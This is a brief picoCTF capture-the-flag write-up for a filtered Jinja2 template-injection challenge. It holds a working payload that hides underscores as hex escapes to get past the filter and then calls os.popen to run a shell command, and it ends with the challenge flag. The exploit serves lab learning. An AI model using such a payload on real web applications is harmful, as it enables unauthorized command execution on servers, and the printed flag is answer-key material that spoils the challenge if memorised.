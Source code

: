 #### Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:58715/)!

# Solución

````
[Server Side Template Injection with Jinja2 for you now](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}



# picoCTF{sst1_f1lt3r_byp4ss_0ef4bd3d}



```